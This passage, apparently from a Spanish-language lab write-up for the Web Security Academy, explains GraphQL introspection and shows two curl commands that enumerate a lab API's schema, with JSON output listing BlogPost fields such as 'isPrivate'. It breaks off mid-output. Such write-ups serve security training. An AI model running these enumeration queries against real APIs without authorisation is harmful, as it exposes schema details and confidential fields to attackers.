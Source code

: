 Para `enumerar información` acerca del `esquema` vamos a usar la `introspección`. La `introspección` es una `función integrada` de `GraphQL` que permite `consultar` un `servidor` para `obtener información` sobre su `esquema`. La `introspección` nos ayuda a comprender cómo podemos `interactuar` con una `API GraphQL`. También puede `revelar datos potencialmente confidenciales`, como `campos` de `descripción`. Para saber si la `introspección` está `habilitada` podemos usamos esta `query`

```
# curl -s -X POST https://0aec00ce043258518801ff08004300de.web-security-academy.net/graphql/v1 -H "Content-Type: application/json" -d '{"query":"{__schema{queryType{name}}}"}' | jq  
{
  "data": {
    "__schema": {
      "queryType": {
        "name": "query"
      }
    }
  }
}
```

Mediante esta `query` podemos `extraer` todos los `tipos`, sus `campos`, sus `argumentos` y el `tipo` de los `argumentos`

```
# curl -s -X POST https://0aee00a2035e51b583d7482b001d00d2.web-security-academy.net/graphql/v1 -H "Content-Type: application/json" -d '{"query":"{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name,kind}}}}}}}"}' | jq 

{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "BlogPost",
          "fields": [
            {
              "name": "id",
              "args": []
            },
            {
              "name": "image",
              "args": []
            },
            {
              "name": "title",
              "args": []
            },
            {
              "name": "author",
              "args": []
            },
            {
              "name": "date",
              "args": []
            },
            {
              "name": "summary",
              "args": []
            },
            {
              "name": "paragraphs",
              "args": []
            },
            {
              "name": "isPrivate",
```